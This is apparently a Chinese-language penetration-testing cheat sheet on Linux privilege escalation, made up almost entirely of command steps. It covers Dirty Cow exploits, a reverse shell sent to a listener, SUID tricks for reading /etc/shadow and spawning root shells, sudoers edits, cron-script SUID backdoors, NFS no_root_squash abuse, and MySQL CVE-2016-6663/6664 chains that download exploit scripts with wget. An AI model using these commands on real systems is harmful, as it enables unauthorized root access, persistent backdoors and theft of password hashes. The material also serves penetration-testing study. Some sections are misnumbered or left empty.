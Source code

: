 ## 一、内核漏洞

### 1、简介

```php
	脏牛漏洞（Dirty Cow）是存在时间最长且影响范围最广的漏洞之一。低权限用户可以利用该漏洞实现本地提权，同时可以通过该漏洞实现Docker容器逃逸，获得root权限的shell。
```

### 2、本地内核提权

```php
# 1、检测内核版本
	lsb_release -a	// 查看系统发行版本
	uname -a		// 查看内核版本
```

```php
# 2、下载、编译生成exp文件
	make
```

```php
# 3、执行成功会返回一个root权限的shell
	./dcow -s
```

### 3、DirtyCow漏洞

```php
# 1、进入容器，编译POC并执行
	cd /dirtycow-vdso/
	make
	./0xdeadbeef 192.168.1.100:1234
```

```php
# 2、成功接收到反弹的shell
	nc -lvvp 1234
```

### 3、Linux提权工具

```php
# 下载地址
	https://github.com/mzet-/linux-exploit-suggester.git
```

```php
# 1、根据操作系统版本好自动查找相应提权脚本
	wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```

```php
# 2、根据提示下载poc，编译执行
	gcc cve-2017-16995.c -o cve-2017-16995
	./cve-2017-16995
```



## 二、SUID

### 1、简介

```php
	SUID是一种特殊权限，可以让调用者再执行过程中暂时获得该文件拥有者的权限。如果可以找到并运行root用户所拥有的SUID文件，那么就可以在运行该文件的时候获得root用户权限。
```

### 2、步骤

```php
# 1、在Linux中查找可以用来提权的SUID文件
	find / -perm -u=s -type f 2>/dev/null
```

```php
# 2、通过find以root权限执行命令
	touch pentestlab
	find pentestlab -exec whoami \;
```

### 3、常用命令

```php
# Find
	find pentestlab -exec whoami \;
```

```php
# Vim
	vim.tiny /etc/shadow
```

```php
# awk
	awk 'BEGIN{system("whoami")}'
```

```php
# curl
	curl file:///etc/shadow
```

```php
# Bash
	bash -p
```

```php
# Less
	less /etc/passwd
```

```php
# Nmap
	nmap --interactive
```



## 三、sudo

### 1、简介

```php
	普通用户在使用sudo执行命令的过程中，会以root方式执行命令。在很多场景中，管理员为了运维管理方便，sudoer配置文件错误导致提权。
```

### 2、步骤

```php
# 1、设置sudo免密码
	vi /etc/sudoers
	在最后一行添加：bypass ALL=(ALL:ALL) NOPASSWD:ALL
```

```php
# 2、查看sudo的权限
	sudo -l
	more /etc/shadow
	sudo more /etc/shadow
```



## 四、计划任务

### 1、简介

```php
	如果可以找到可以有权限修改的计划任务脚本，就可以修改脚本实现提权。本质上，就是文件权限配置不当。
```

### 2、步骤

```php
# 1、查看计划任务，找到有修改权限的计划任务脚本
	ls -l /etc/cron*
	more /etc/crontab
```

```php
# 2、在存在计划的文件mysqlback.sh，添加SUID shell后门，当定时任务以root再次执行时，可以获取root权限
	cp /bin/bash /tmp/shell
	chmod u+s /tmp/shell
```



## 五、NFS

### 1、简介

```
	当服务器中存在NFS共享，开启no_root_squash选项时，如果客户端使用的是root用户，那么对于共享目录来说，该客户端就有root权限，可以使用它来提升权限。
```

### 2、步骤

```php
# 1、查看NFS服务器上的共享目录
	sudo showmount -e 192.168.1.100
```

```php
# 2、创建本地挂载目录，挂载共享目录。使用攻击者本地root权限创建Suid shell
	sudo mkdir -p /tmp/data
	sudo mount -t nfs 192.168.1.100:/home/bypass /tmp/data
	cp /bin/bash /tmp/data/shell
	chmod u+s /tmp/data/shell
```

```php
# 3、回到要提权的服务器上，使用普通用户使用-p参数来获取root权限
```



## 六、Mysql

### 1、简介

```php
	Mysql提权方式有UDF提权，MOF提权，写入启动项提权等方式。CVE-2016-6663和CVE-2016-6664组合利用，可以将一个www-data权限提升到root权限。
```

### 2、步骤

```php
# 1、利用CVE-2016-6663将www-data权限提升为Mysql权限
	cd /var/www/html
	gcc mysql-privesc-race.c -o mysql-privesc-race -I /usr/include/mysql -l mysqlclient
	./mysql-privesc-race test 123456 localhost testdb
```

```php
# 2、利用CVE-2016-6664将Mysql权限提升为root权限
	wget http://legalhackers.com/exploits/CVE-2016-6664/mysql-chowned.sh
	chmod 777 mysql-chowned.sh
	./mysql-chowned.sh /var/log/mysql/error.log
```

